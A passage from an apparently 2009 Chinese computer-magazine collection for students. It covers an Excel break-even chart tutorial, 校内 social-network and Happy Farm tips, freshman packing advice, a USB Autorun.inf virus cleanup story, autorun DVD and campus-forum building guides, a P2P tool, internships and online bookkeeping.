待文本框插入后，同样是将文本框的边框设置成“无线条颜色”，其次就是在“版式”选项卡下，将“版式”设置为“紧密型”。如果是相邻的两个文本框需要交叉重叠，此时，最为重要的就是将前面的文本框在“设置对象格式”对话框中，单击“文本框”选项卡，将“允许文字绕排外部对象”选中，并在“版式”选项卡中，将“版式”也设置为“紧密型”。最后单击“确定”退出即可。这样，相互交叉重叠的文本框之间就可以和平相处了（见图）（“允许文字绕排外部对象”是WPS的精华所在，同时，也是我们在编排《简报》版面时最为关键的，有了“允许文字绕排外部对象”功能，才能将文本框交叉、重叠后，文本框中的内容不被遮挡、覆盖。其次，就是在打印时，如果打印对象发生偏移，我们将整个《简报》事先用文本框框起来就可以了）。

(刘长德)

## 妙用动态散点图，精确计算盈亏平衡点

很多企业在经营过程中，经常需要核算某种产品的盈利情况。而计算产品盈利能力时，往往就涉及盈亏平衡点的问题。就是在现有的资源条件下，某种产品的产量或者销量达到什么规模，才能够保住成本，也就是常说的盈亏平衡点的问题。以前大家往往是通过手工计算，十分麻烦，也不直观。而且当一些企业生产经营环境变化时，也不容易调整。实际上利用Excel的散点图就可以制作出非常直观精确的散点图，并且结合Excel的其他功能，可以实现动态调整。下面就以某公司甲产品的盈亏平衡点散点图制作为例，来介绍具体的操作方法。本文实例介绍表格可从http://work.newhua.com/cfan/200923/ykphd.rar下载到。

### 设计盈亏测算表

由于每个企业的生产经营状况均不同，而测算盈亏平衡点，就必须根据企业的具体实际情况来编辑一份盈亏测算表，主要涉及企业的固定成本、变动成本、销量、销售单价等因素。比如甲产品的固定成本为11200千元，每吨产品的变动成本为12千元，平均销售单价为40千元/吨。通过以上这些资料，我们可以得到如下关于盈亏的计算公式，即：销售收入=销量×销售单价，总成本=固定成本+单位变动成本×销量。盈亏平衡点销量=固定成本÷（销售单价-单位变动成本），盈亏平衡点销售收入=盈亏平衡点销量×平均销售单价。

从以上公式可知，盈亏平衡点实际上就是销售收入与总成本相等时的数值，在图表上就表现为两者的交叉点。因此要设计盈亏平衡点动态图，就必须确定总成本、销售收入以及盈亏平衡点坐标值，而依据以上公式，就可以通过计算得到这些数据。

启动Excel 2007，新建一个工作表，将其命名为“盈亏平衡点测算表”。在此表的B9:K9区域内输入序号、固定成本、单位变动成本、月销量、销售单价、销售收入、变动成本、总成本、盈亏平衡点x轴值、盈亏平衡点y轴值等内容。然后在此表的第一行的C10中输入固定成本数值，D10中输入单位变动成本值，E10中输入月销量初始值为0，F10中输入销售单价，G10中输入计算销售收入的公式“=E10*F10”，H10中输入计算变动成本的公式“=E10*D10”，I10中输入计算总成本的公式“=C10+H10”。并将这三个公式复制对应的下面G11、H11、I11单元格中。J10中输入盈亏平衡点X轴第一个值0，K10中输入计算盈亏平衡点Y轴第一个值公式“=F11*J11”。在第二行的C11、D11、F11中输入上面的固定成本、单位变动成本以及销售单价值，E11中输入公司最大月销量值，如2000。J11中输入计算盈亏平衡点X轴第二个值公式“=C11/(F11-D11)”，K11中盈亏平衡点Y轴第二个值公式“=K10”。在第三行的J12中输入盈亏平衡点X轴第三个值公式“=J11”，K12中输入盈亏平衡点Y轴第三个值0（见图1）。



通过以上计算，我们就可以得出销售收入的两个点坐标值，如（0，0）、（2000，80000），总成本的两个坐标点值，如（0，11200）、（2000，35200），而盈亏平衡点则由三点确定，如（0，16000）、（400，16000）、（400，0）。

同时为了便于直观地说明盈亏平衡的计算结果，在B13中输入文字“测算结果说明：”，在其后的D13中输入公式“="当产品销售价格="&F11&"千元，单位变动成本="&D11&"千元时，盈亏平衡点销量="&J11&"吨"，"销售收入="&K11&"千元"”。此公式的作用是当在F11、D11、J11、K11中显示相应数据时，会自动通过文本符连接符号&组合在一起，如显示“当产品销售价格=40千元，单位变动成本=12千元时，盈亏平衡点销量=400吨，销售收入=16000千元”。

### 利用计算数据，制作盈亏平衡点图

需要制作盈亏平衡点图时，单击“插入”菜单，从弹出的功能区中选择“图表”中的散点图，然后选择其中的“带直线的散点图”类型（见图2）。当插入一个图表后，单击弹出的“图表工具”菜单下面的“设计”子菜单中的“选择数据”选项，在弹出的“选择数据源”对话框中，单击“添加”按钮，在随之弹出的“编辑数据系列”对话框中，进行如下设置：“系列名称”为“总成本”，“X轴系列值”为“=盈亏平衡点测算表!$E$10:$E$11”，“Y轴系列值”为“=盈亏平衡点测算表!$I$10:$I$11”。



采用同样的方法，添加另外两个系列，分别为：销售收入，其X值为“=盈亏平衡点测算表!$E$10:$E$11”，Y值为“=盈亏平衡点测算表!$G$10:$G$11”；盈亏平衡点，其X值为“=盈亏平衡点测算表!$J$10:$J$12”，Y值为“=盈亏平衡点测算表!$K$10:$K$12”。最后关闭此对话框（见图3）。



这样一个盈亏平衡点计算图雏形就做出来了，在图中盈亏平衡点就为总成本与销售收入的交叉点，其坐标值为（0，400），即销量为400吨时达到盈亏平衡（见图4）。



### 妙用控件，将盈亏平衡点图动态化

以上制作的盈亏平衡点图仅仅是在已知条件下编辑的。如果企业的生产经营环境变化了呢？比如企业经营过程中，销售价格以及变动成本上下浮动是非常正常的。虽然通过修改源数据计算表可以达到此目的，但是比较麻烦。实际上利用几个控件就可以非常方便地解决此问题，这样就可以根据实际生产经营情况，调整相应数据，并及时得到盈亏平衡点。

具体操作方法如下：单击“插入”菜单，从“文本”功能区中选择“文本框”选项，然后选择其中的“横排文本框”选项，在图表上划出一个文本框，并在其中输入“销售价格”。接着单击“开发工具”菜单，从弹出的“控件”功能区中，选择“插入”选项，在随之弹出的“表单控件”选项列表中选择“滚动条”控件，将其拖放到“销售价格”文本框的后面（见图5）。



右击插入的滚动条控件，从弹出的快捷菜单中选择“设置控件格式”命令，然后在弹出对话框的“控制”选项卡中，将“最大值”、“最小值”设置为销售价格的合理范围，如0~100。“单元格链接”设置为上面计算表中销售价格所在的$F$11。最后关闭此对话框。采用同样的方法，再添加一个控制变动成本的滚动条控件，其单元格链接设置为$D$11（见图6）。



### 小提示：

需要注意的是，如果在Excel2007的菜单栏没有显示“开发工具”选项，可以单击左上角的Office图标按钮，从弹出的选项对话框中，将“常用”类别中的“在功能区显示‘开发工具’选项卡”复选项选中，然后单击“确定”按钮，关闭此对话框即可。

同时为进一步让图表查阅者更直观了解关于产品盈亏平衡的准确数据信息，可以在此图表上添加一个标签控件。此控件插入到图表后，单击此控件，然后在上面的编辑栏中输入公式“=$D$13”。

这样当企业经营环境变化时，比如销售价格下调为39千元/吨，单位变动成本上升为14千元/吨，需要测算这种情况下产品的盈亏平衡点时，只需要拖动销售价格、变动成本后面的滚动条，调整到合适数值，就可以在图表中直接显示盈亏平衡点，并且在图表的标签控件中显示相应的文本信息，如“当产品销售价格=39千元，单位变动成本=14千元时，盈亏平衡点销量=448吨，销售收入=17472千元”。使用这种动态图表也可以查看任意不同经营环境下的盈亏平衡点情况。最后修改下图表的格式、给图表添加标题以及图例，就可以得出一份非常精致、实用、智能的动态盈亏平衡点计算图表了。

实际上盈亏平衡点计算图不仅仅可以应用在生产销售计算过程中，还可以应用在其他经济活动中，如金融投资、项目预算等等业务中。充分利用盈亏平衡点测算工具，对于控制成本、提高收益是非常有益的。

(山东/朱晓燕)

## 老同学，你好吗——假期“校内”N日游

### 老同学我可找到你啦

放假回家，忽然想组织同学聚会，平时光和几个死党联系了，其他人呢？直接在“找人”一栏里输入要找同学的姓名，这么多人啊！那就点击旁边的“高级搜索”吧，按照详细个人信息（生日、家乡、星座、高中、初中、小学），再筛选一下，不信找不到你。直接选择准确的地区及学校、班级，就可以直接通过班级搜索同班同学了，避免了一个个名字输入的麻烦。通过“好友的好友”，进一步发掘出不少失散多年的老同学，这小学、初中、高的聚会就分拨来吧。把各阶段班的QQ群成员补充完整，手机号等联系方式做成表格放在群共享里，用飞信通知聚会时间，真叫一个快。聚会那天……“奇怪，你怎么知道我大学里做的事情？”“我在校内把你加为好友了，你的动态就在我眼皮底下啦！”

### 做个开心的“农民”

什么？我睡了两天懒觉东西就被偷光了？大学同学虽然天南海北的，可回到家也没闲着，作为校内网人气第一的互动小游戏，“开心农场”备受宠爱（见图2）。如何迅速玩出水准呢？

- 1. 成为偷盗高手：一定要多多加农场好友，这样才有更多机会多偷，并且记得偷之前把自己的金币都换成种子，这样，偷盗时就不怕被狗发现而罚款了。偷取的作物可以卖出非常多金币。
- 2. 养狗：邀请五个好友可以获得一只狗，它可以防止好友来偷盗，但是如果不喂狗粮它是不会卖命的。
- 3. 快速升级经验：只种白萝卜，利用化肥快速催肥，迅速增加经验提升等级，但是金钱会比较少。
- 4. 避免被盗：在作物快要成熟时使用化肥缩短成熟时间，然后自己来收，别人就无法算到你的成熟时间。
- 5. 保持种子的多样性：大家都种植的作物，实际价格要比理论价格低。

### 人气之星就是我

新消息，宿舍的老五与院花好上了！看来，本学期歌王赛后老五借着关注度在校内炒人气，还是很有用的。校内根据你的活跃程度累计积分，积分和访问量高的就会成为“人气之星”显示在大学排名的前面，好友都能看见。网络上曾盛行过一阵用软件刷积分的方法，但容易被封号，且校内已设置了每日积分上限，刷分意义不大了。下面说些真正能提高人气的方法。

首先看看积分规则，每天每人最多可以获得100积分，需要发5个帖子、5篇日志、留言评论1条，不过每个数值会随当天的得分逐渐接近100而逐渐减少。每天总分不能超过100，每天花掉积分的方法：建群50个，发布告20个，发邀请给5人，随机招呼1次。其中建群和布告只有星级用户才能操作，邀请必须是星级用户管理员才可以发出，被邀请者接受的，原来花5分还给邀请者，不受100分限制，不接受的将不予返还。

- 1. 多加好友，放到新的好友分类里面，然后删掉。此方法回踩率高。
- 2. 多浏览别人的页面，好友的页面里面有好友，新的里面仍然还有好友……速度很快，一分钟就能浏览二十来个。回踩率不高却很有效率，综合起来就很可观了。
- 3. 多给别人留言，比如请教问题之类，费点脑子，但是回踩率极高。
- 4. 多上传几张照片，照片通常能吸引来很多访问量。
- 5. 多跟好友互动，玩小游戏。
- 6. 发帖子的作用不大，因为点击帖子会直接转到你的日志，别人如果不看你的页面的话是不会增加访问量的。

总的来说，还是得靠“实际人气”，老五让全班男生天天轮流来踩他，代价是帮忙打开水，访问量大增啊。校内存知己，天涯若比邻。当几乎所有人都在玩的时候，你如果不多多积攒人脉，收获友情，是不是有点out了呢？

(辽宁/陈仁建)

## 入学完美准备计划——给学弟的一封信

### 亲爱的学弟：

恭喜你考上这所“拉风”的学校，成为我的师弟！暑假玩high了吧？下周要启程了，我在这里絮叨两句，到时你就明白有用了。先感谢我吧！你问我要带什么到学校来？记住了，不是搬家，很多日常用品都可以在学校的超市买到，或者由学校统一购买。但有些东西可别忘了。证件类：录取通知书、准考证、身份证、个人档案、团员证以及转团（党）关系的资料、一些一寸证件照（省得临时抓瞎）。建议你把这些证件都放到一个袋子里。关于银行卡，最好提前打听异地取款的手续费，有些学校交学费指定专门的银行，同省转账可能免手续费。学费和生活费是提前存入银行还是带现金到学校所在地开卡根据具体情况而定。现金要随身携带，注意防盗，尤其是独自到校报到的同学，在路上尤其要注意安全。

衣物类：衣服（多带几件T恤）、裤子、鞋（凉鞋、运动鞋、拖鞋等，提前清洗一下）、袜、睡衣、刮胡刀，国庆不回家的话把冬衣都带上。宿舍没有太大的衣柜，不要把衣服都运过来，估计进大学两个月后你的穿衣品味就会起变化，信不信由你。其他：总原则就是，不容易买到的、二次购买会浪费的、应急需要的东西优先。比如水果刀、折叠伞、电筒等。背一个旅行双肩背包（平时还可以上课、逛街用），拉一个大小合适的旅行箱（平时还可以放在床下装东西），装几个空塑料袋（临时收纳用），行李最好集中，一小包一小包的很容易半路丢失。到新地方容易水土不服，要自己注意照顾自己，带上夏桑菊等解暑药、治感冒发烧的常用药、治腹泻的药、创可贴、风油精等药品，其实到校医院看病也很方便的。适当带一些家乡特产，和同学分享增进感情。如果你是夜猫子，最好从现在开始调整作息时间，晚上宿舍有熄灯时间，集体生活不像在家这么自由，多为别人考虑一下吧。想家的话，就电话、网上视频，自立能力应该不错了，别一冲动就要飞回家！

IT产品类：手机、MP3、录音机、录音笔、数码相机、电子词典等如果有的话最好都带来，充电器和备用电池千万别忘了。还有说明书、保修卡，虽然全国可以联保，票据不全就不好办了。有的学校不允许大一同学用电脑，要提前确认。如果你家里有台式机，建议你先别搬过来，因为本来东西就不少，大件物品尽量减少，学校机房、网吧上网还算方便，下学期再搬过来也不迟，说不定过一段时间你会买新电脑呢！注意最好把一些重要的电子资料存在闪存盘里或者网络硬盘上，万一你发现忘在家里的电脑上了，打算临时教父母怎么帮你传过来吗？如果你要带本本过来，在路途上和学校里都要注意贵重物品的防盗。图书馆有无线，有本本确实很方便，买个在床上用的电脑桌，就可以让本本在宿舍更好地为你工作啦！原装驱动盘最好带上（特别是菜鸟们），方便同学帮你修理。此外宿舍里插座有限，肯定需要接线板，带过来或直接购买都行，注意要买品牌产品，安全第一。家里有小台灯可以带过来，现买一个也不贵，如果有充电功能更好，以对付熄灯后的时光。学习类：最好带上英语工具书（如牛津字典）和语法书。英语是大一的重点科目，学时长、学分高、关联大。大学英语几乎不教语法，有本高中熟悉的英语语法书翻翻不错。现在虽然上网查询很方便，但一本系统的有自己笔记的英语书用起来更顺手对吧？此外可以带上一两本自己喜欢的书。

明白了吗，我聪明的小师弟？报到当天，火车站会有学校的迎新接车，到学校后你会看到各学院在操场的接待点，彩旗招展，人声鼎沸啊！很多像我一样的高年级志愿者会给你提供帮助。“一条龙”服务下来，你的学生证、校徽、图书馆证、食堂一卡通等都一应俱全了。有的同学提前在网上通过校园论坛、QQ群、百度贴吧等找到“组织”，认识了未来的同学或学长，这对于从容进入大学生活有一定好处。OK，提前买票，准时踏上你的青春列车，大哥我在这里等你哟！

你未来的学长
2009年8月

## 电教室病毒，别和我躲猫猫

果果：病毒爱旅游，学校的电脑因为联网、使用人数众多，变成不少病毒的游乐场。舒云飞同学用手当存储设备，一不小心也被病毒粘上了，看看他和病毒斗智斗勇的故事吧！（另：舒云飞在邮件中也谈了自己的职业生涯规划，赠书《我的梦想战的路》已寄出。）早有耳闻33B4教室里的电脑有一个神秘的病毒，果然两个班级所有大大小小的闪存盘都因为复制调查报告挂了彩！我的手机卡也不对劲，所有文件除了手机QQ软件外，都是以EXE结尾的同名文件夹，并且无法打开，要知道里面有非常重要的东西啊！下课后我回到寝室好好研究了一番，发现这些文件夹的建立时间都在2008年10月20日，而我买这张卡的时间是在2009年2月，怎么可能“时光倒流”呢？很明显这是病毒文件的一种伪装方式，尽管占用的存储空间没有改变。让学校图书馆的电脑冒着中毒的危险帮我杀毒吧！第二天我就到电子阅览室悄悄把卡连到了电脑上，很快360安全卫士提示有非法程序被载入，稍后提示有Autorun.inf病毒（这已经不是我们第一次见面了），随后瑞星也拦截了该病毒，干掉了Autorun.inf。不过，随之而来的问题可能令菜鸟紧张，因为先前的文件也人间蒸发了！我从容不迫地右击闪存盘盘符，选择“属性”，在“常规”标签下看到存储容量不变，也就是说文件应该是被隐藏起来了。接下来打开闪存盘，点击工具栏的“工具→文件夹选项→查看”，在“高级设置”中找到“隐藏受保护的操作系统文件”，把前面的勾去掉，然后在“隐藏文件和文件夹”下的选项中选择“显示所有文件和文件夹”，确定。这时所有隐藏的文件就都回来了，那个可恶的病毒执行程序（MS-DOS）也在。接下来就是——代表月亮消灭你！

点评：Autorun.inf是闪盘病毒作案的大帮凶。病毒先把自身复制到闪盘，然后创建一个Autorun.inf，在用户双击闪盘时，Autorun.inf就根据设置运行闪盘中的病毒。利用创建日期查毒效果不错。发现中毒后，可以搜索本机文件，看中毒之后电脑上都创建了什么文件，病毒文件很容易揪出来。

## 刻录校园点滴 珍藏永恒记忆——炫目的同学录DVD巧制作

做一张光盘吧，刻录下大学生活的点点滴滴，将它珍藏起来。若干年后，那些熟悉的影像，依旧会唤起你无尽的回忆……

## 华丽的光盘效果秀

我把光盘制作成了自启动的格式，一插入光驱就会自动响起背景音乐，显示主界面选单。

## 同学录光盘诞生记

首先是收集与准备照片，大家的留言（用QQ发过来）、背景音乐（如优美的钢琴曲），为防刻出废盘多购进几片光盘（光盘封面可以拿去彩喷）。

接下来就是镜像的制作了。必备工具：制作光盘自动运行的Autoplay Menu Builder和效果炫目的电子杂志制作软件Zinemaker（下载地址：http://www.duote.com/soft/4965.html和http://www.cnzz.cc/Soft/2630.html）。

## 制作光盘自动运行程序

- 选择模板：安装完成后软件会自动运行，点击“创建一个新的方案文件”，在选择模板窗口中输入方案的名称，选择一个现成的模板套用。菜单栏下面是工具栏，有插入按钮、图片、视频、文本、新建页面等，点“创建”按钮可生成ISO文件。
- 添加功能：用工具栏里的插入工具可插入各种控件——图片、视频、Flash或文本框等等，双击可调出属性窗口进行编辑。

## 设置方案：

在软件主界面中，进入“方案→当前设置”，关于程序的东西都在这里，有窗口标题、页面大小、程序图标、是否最前端等等，还可以修改程序的版权、制作人等信息。背景音乐的设定就点“方案→音频”。你可以添加多首音乐，它会按列表循环播放。都做完后就点“发布→创建发布”，选择创建“ISO映像”，下一个页面里可以设置生成ISO的位置，“卷标标识符”就是设置光盘显示的名称。

## 制作精美的校园电子相册

Zinemaker非常容易上手，只需要替换模板的原始图片和文字，就能做出精美的电子相册。如果觉得内置模板还不够，可以下载更多，放到目录下的template文件夹内就行。

- 第一步：点击“文件→新建杂志”，选一个杂志模板，确定，就建好了一本新书。
- 第二步：点击“项目→添加模板页面”，有图文模板和图片展示两类模板，选一个添加进去。每添加一个，书里就多了一页。
- 第三步：在左侧“编辑”框中切换书的每页，在右边“模板元件”框中对应地替换每张图片为照片（双击它会出现导入照片的窗口）。对于旁白的元件，选中后直接在“元件查看”窗口下面的“更新文字”中修改即可。另外，在右下角的“页面设置”中有一些设置，如页面特效可以给当前页设置活动气泡或下雪效果。
- 第四步：全部修改完成后点“生成→生成杂志”，会提醒你杂志生成完毕是否转到所在目录。进去复制出来就是一个做好的exe电子相册了。
- 最后只要把生成的杂志拷进CD_Root中再加入自启动菜单就行了。生成一个小于4.7G的ISO文件，用虚拟光驱加载一下检验一遍，没问题就可以刻录啦。

## 小提示：

- 可以新建好几个页面，第一个页面为主菜单，用PS炮制一张图片做背景。再做几个精致的按钮插入进去。每个按钮对应开启一个后面的页面作为子菜单，然后下载好看的小箭头作为子页面间互相切换之用。每个页面右上角都做个退出键和静音键，方便使用。
- 子菜单之间的按钮没必要逐一设置，设置好一个后复制，切换到另一个页面，再粘贴就行了，连坐标一起复制过来。保证每页图标完美统一。
- 工作区的横竖方向都有标尺，点击标尺的顶端一直不放就可以拖出一条红线，拖到一定位置可以给页面中的控件定位。

## 小提示：

毕业纪念电子相册的制作方法不少，大约有以下几个工具：

1. 各类电子杂志的制作软件：制作后可以用Nero等刻录出来，或挂在校友录、班级群空间中长期保存。
2. movie maker、会声会影等视频编辑软件：除照片外，对于视频等素材的加工更便利。
3. PPT：比如某高校新闻传播学院，收集各班级同学的姓名、QQ号、邮箱、手机等个人信息以及毕业感言，并附加个人照片2～3张，也欢迎提供集体照片，最后统一按模板汇总成一个PPT，照片美化、绚丽转场、配音、视频等都可以实现，压缩后拷给各班，非常方便。
4. 把资料提供给学校附近的数码工作室，若设计制作后批量刻盘或冲印成册，还比较实惠。寻找网上的专业设计制作店效果和价格可能更优，但需要考虑运费成本。

（辽宁/陈仁建）

## 校园个人网站，风生水起

在这个个性张扬的年代，作为校园电脑达人的你，是否琢磨着弄个属于自己的网站？吸引眼球？造影响力？都不难！不管是个人网站，还是院系网站，还是校园论坛，你都可以玩转。纸飞机（http://www.enuaa.com）是南航的几个学生因为自身兴趣爱好而组建起来的校园论坛，后得到学校团委的重视及资助，注册会员两万四千多，活跃会员近一千多！这是如何做到的呢？我今天就从“纸飞机”校园网络论谈起，给大家建设网站提供一些观点和方法。

## 找个地方盖房子

在软件方面，采用的是Discuz!7论坛软件系统，这是真正的跨平台应用软件，在安全模式下也能完好运行。Discuz!安装的具体步骤详见http://417306816.qzone.qq.com。

在硬件方面，空间和域名非常重要。纸飞机从校网络中心开辟一个特殊的IP，使校内外网都能访问（方便已经毕业和放假回家的同学），并利用自己的服务器，申请了enuaa的域名。

如果是小规模的网站，用不到服务器，空间就够了；规模大一些的，可以借用学校现成的服务器，或者到网上租赁服务器。现在网上提供虚拟主机服务的服务商非常多，如何租用到最佳性价比的服务器产品呢？首先在网上查看服务商的资料，应有营业执照、ICP（网站经营许可证）等。其次了解公司规模，网页上地址、电话详细，甚至客户QQ群人数众多，就比较让人放心。域名注册可以找域名注册商，价格不高，一定要选正规的、比较大的公司。买完域名，最好第一时间到工信部网站备案（http://www.miibeian.gov.cn）。备案的网页上选项较多，建议少选为妙，避免不必要的麻烦。

## 小提示：如何做好校园个人网站

1. 在网站适当的地方展现幽默风趣和可爱。用户会对这样别致的设置会心一笑，无形中增加对网站的认可。
2. 应当尽量使用文字而不是图形来显示重要的名称、内容和链接，这样可以增加搜索引擎的搜索度，提升排名。
3. 首页要做流畅，做漂亮，做得够出色，给别人留下耳目一新的第一印象。多从别人的网站中吸取成功元素。
4. 不要总是摘录别人的内容，应当注重原创，这才有吸引力。
5. 要做好网站核心功能，网站不是超市的商品，太多了用户会觉得杂，而是你推出的某项核心服务足够好，吸引了核心用户。
6. 周期性检查链接是否有损坏，并确保HTML格式正确。可以使用Google网站管理员工具时刻检查自己网站的链接，如有损坏，立即删除或修正。
7. 让用户可以看到其他用户的提问和解答的情况，增加对网站的信任度。

## 打好特色文化牌

骨架搭建好了，如何添砖加瓦呢？纸飞机根据校园情况进行了细致的分类，有招生咨询区、热点关注区、票务交流区、坛友互助区、综合资讯区、休闲娱乐区、学院风采区、校园合作伙伴区、社团区以及站务管理区等。这里是学校舆论的摇篮，有什么事情，上纸飞机就知道了。

每个大区都分为各个小区，每个小区有不同版主，大区有总版主，总版主之外有超级版主和管理员，并设定仲裁版主用来协调会员和网站之间的纠纷。

## 练好十八般武艺

个人网站需要动态网站方面的技术，如ASP、JSP、PHP等等，还有数据库方面的知识，如常用的MySQL、mssql、Access等。但就像人脸一样，打扮漂亮了，才会有人气。所以关键在于排版、布局、色调等方面，如院系网站要与院系整体形象一致，注意网页色彩、图片的应用及版面规划，保持网页的整体一致性。网站维护方面要注意对服务器及相关软硬件可能出现的问题进行评估，制定响应时间。要及时更新内容、调整页面，还要注意制定相关网站维护的规定，将网站维护制度化、规范化。另外，网站还要特别安全性措施，防黑、防病毒是重中之重。网站全部做好之后，测试下各个方面是否可以正常使用和使用，就可以运行啦！

## 小提示：

北京师范大学的张晓亮建立的论坛“蛋蛋网”（http://www.oiegg.com，见题图），现在成为学校知名度最高、最活跃的BBS，毕业后他还舍弃不了这个网站，一直利用业余时间和版主团队进行维护工作。

他有个特别值得推荐的经验：和学校相关部门搞好关系，比如学校网络中心、团委、本院系的领导等等。有了校方的支持，硬件、政策方面都会得到照顾，比如“蛋蛋网”一开始就用的是北师大数字媒体研究所的免费服务器，而BBS备案一般需要有一定资质的公司为依托，有学校出面就搞定了。当然，网站本身的内容也非常重要，要提供同学们最需要的东西。北师大原来校园资源缺乏电影、电视剧、考研资料等，“蛋蛋网”成立之初，张晓亮就自己收集了很多资料上传，结果同学们都被吸引来了。

纸飞机还结合校内推出了个人空间、个人相册、个人应用游戏、相册等，让大家感觉这是一个别致的论坛、心灵的依托、结交好友的不二良选。

另外，纸飞机也被誉为第二图书馆，大家把自己的学习资料、图片、音乐、试卷啊都共享到论坛上，供所有人免费下载，就算一代代学子离开校园，留下的却是宝贵的资源。

其实拥有一个自己的网站，甚至是拥有一定人气的校园论坛并不难，有一点网站建设的技术、一颗踏踏实实的心、一种独特的文化和运营模式，再结合同学们的实际需求等等，一个超人气的网站，你也能做成！还等什么？时机就在眼前！（南京航空航天大学/王如刚）

## 全国高校若比邻，神速下载任我行

校园网里东西可真不少，只可惜下载速度太慢。听说邻校的好东西更多，可怎么获取资源呢？嘿，哥们，你偷偷用上免费的好工具不告诉我。原来，哥们用的是一款完全免费且专门针对高校教育网量身定做的P2P资源分享软件——汉魅（下载地址http://www.onlinedown.net/soft/52922.htm）。它把复杂的高校教育网络进行整合，组成一个庞大的资源分享平台，可以在汉魅网络中搜索、浏览到海量的优秀资源，又可以将自己的资源便捷地分享给好友，在非校园网也可以顺畅使用。

## 提速前先占个坑

使用非常简单，在软件界面点击“开始→用户登录”，注册后才能使用软件的完整功能。注册时需要你选择填写所在的大学专业等信息，因为软件会根据这些信息自动匹配你的局域网，以获得最大的传输速度。首次登录还会提示你选择“共享强项”和“共享文件夹”，其他用户通过“共享强项”就能更快地搜索到

## 海量资源任我搜

登录后可以在关键字一栏输入想要下载文件的关键词，点击“全局搜索”就能找到全国高校大学生共享的资源。点击“本校搜索”，会只显示跟你同校的用户共享的文件。因为是局域网P2P软件，自然选择同校的资源下载速度更快。除了搜索关键字，你还可以直接搜索特定大学的用户，点击“搜索用户”，这里可选择“毕业/就读大学”和“共享强项”等信息。搜索到用户后，双击可以直接访问他们的共享文件夹，找到合适的资源即可双击下载。速度通常会达到4MB/s左右，远快于外网下载。

## 快点再快点

汉魅实行财富积分制度，上传资源越多、在线时间越长，积分越高，争取高的积分等级。当你从别的用户下载文件需要排队时，会按照财富高低以及先来后到顺序排序，能够获得更快的下载速度。等级越高享受的服务也越多。此外，可以通过“本校资源站”进行资源预约申请提交，让其他用户第一时间看到你的需求，好共享出他们的文件。自己的资源也可以以网页链接形式“发布资源到本校资源站”，右键选中该资源，点击“发布资源到本校资源站”，即可轻松跳转到本校资源站进行资源发布，分享链接同时能获得积分。好了，大家放心去享受极速下载的乐趣吧！

## 小提示：保护好自己的文件

汉魅默认的共享目录是“C:\huntnmineShare”，但是只要你下载文件时选择了其他目录，软件就会自动将那个目录及其子文件夹全都共享，这意味着其他用户可以任意访问并下载你硬盘上的文件了，如果要保护自己的文件不被下载，就要注意别下载文件到D:\这样的盘符。否则文件就都要被下载走了。（辽宁/陈仁建）

## 暑期IT社会实践，我来了

暑假即将到来，别闲着，融入社会吧！加深对本专业的了解，确认适合自己的职业方向，增强就业竞争优势。下面我就向大家介绍一些关于IT方面的暑期社会实践。

## 途径一：学校提供的企业实习通道

所有的学校都希望有个漂亮的就业率，所以对于学生暑期社会实践都会大力支持。除了院系老师给学生推荐实习机会，一些学校还组织专场招聘会。比如南京航空航天大学每年暑期前都有双向选择会，近百家企业提供上千个实习和就业岗位，将企业搬进校园，不少同学得到去知名企业实习的机会。南航团委王晖书记表示，有些毕业生在招聘和面试中表现非常出色，但到了工作岗位上却表现出了很差的适应性，工作两三个月就被辞退或者自己辞职。而通过实习企业可以全面地考察、培训人才，学生也可以思考自己的专业与处事能力是否适合这个公司，这个行业，利用剩下的大学生生涯来对自己进行有目标的深造，这样为公司和学生节省了更多时间。

## 途径二：关注名企官网实习生计划

也许你更青睐去知名企业实习，除了学校双向选择会，可以关注大型招聘网站、名企的官方网站和论坛活动。比如智联招聘、中华英才网等实习生相关的招聘，还有为大学生提供服务的大街网（http://job.dajie.com/search，可根据实习城市、公司、行业、所学专业等进行搜索，名企实习的信息丰富）。或者直接查看企业需求，比如微软2009年度暑期实习生

## 途径三：到电脑城打工了解市场

作为一名电脑爱好者，你是否经常光顾电脑城？对！到电脑城打工，哪怕做一名电脑销售人员，你都必须明白电脑的基本配置、了解各品牌的特点、同时，你学会跟各种人沟通、锻炼口才，了解市场，提高IT技术，同时还能捞到一笔不小的收入，可谓一举多得！如果自己从电脑城进货，进行一些IT产品的销售，也可以尝试。华北电力大学的张子民和同学卖U盘，从中关村千辛万苦寻找的行货货源因为价格高，在学校的销量不是很大，但他认为从对IT“一窍不通”到学了很多东西，很值得，打算把这份小事业坚持下去。

## 途径四：回到家乡进入公司IT部门

以上都是留在学校方案为主，不少同学回到家，难道就只有睡觉、逛街、看电视了吗？当然不是，只要肯动脑筋，机遇处处有。到你家附近的企业试试，企业里总有IT相关的岗位。优化操作系统、维护电脑、网络管理、升级Office等，都可以获得锻炼。大二的王如刚打算暑假在自己家的社区建立一个电脑维护中心，很多人对电脑的安全维护不甚了解，送去客服又很麻烦，他经过调查觉得可行性很大。此外，大一的小张利用暑期给门户网站做兼职编辑、管理论坛，有一定的报酬，不受地域限制，也是不错的选择。不过网络上需注意防骗，如果是同城业务，最好能见面把权利和义务以合同形式明确下来，异地的也可以通过传真或快递确定。

## 大学老师的建议

1. 实习不要在乎待遇如何，关键看自己能否学到东西，增加就业筹码。一个成绩好但没经验，一个成绩一般但有实习经验，企业可能会倾向于后者。
2. 除了学校老师推荐，还应该主动寻找实习信息，登录学校内网也有一些不错的信息。
3. 要勤学好问，比如进入软件项目小组，分配到一个模块，开始独立工作。遇到不明白的地方可以多请教项目经理或同事（不限于早会），不要怕丢脸，因为软件行业最崇尚的就是“团队协作”精神。还要多融入企业文化，比如大连的日企较多，要求做事严谨，时间观念很强，掌握一定外语。
4. 大一、大二的学生专业知识比较薄弱，大三、大四的学生上手快，相对来说更容易找到实习机会，但不是绝对的。从实习生向企业员工角色的转变，只要有心，就能实现。
5. 暑期实习不建议把精力都花在家教上，虽然对经济有一些帮助，但是谁都可以做，对于今后从事IT行业，并没有直接帮助。（江苏/王如刚）

## 巧用网络记账让钱包鼓起来

作为大学生，我们的钱包大部分是父母补充的，你是否也在为如何理财而烦恼？有这个理财的网站做小帮手，试着改变自己吧。原来我不爱记账，后来同学用钱包网（http://www.qianbao.com）以后，告诉我居然可以存钱了。这么神奇？我注册后也有了一个免费网上账本，发现这不是简单的记账，还包含了日志功能，类似于一个小博客，而且可以加密哦。加入小组可以找到志同道合的记账好友，向理财高手学习经验。批量增加新账目、设置预算、生成图表等都是比较实用的功能。输入的账目按类别区分，直观易懂。能了解自己收入支出明细是再好不过了，也好给自己个总结。还能导出Excel或Word格式的文件保存在电脑上做长期记录。

## 钱包网达人观点：

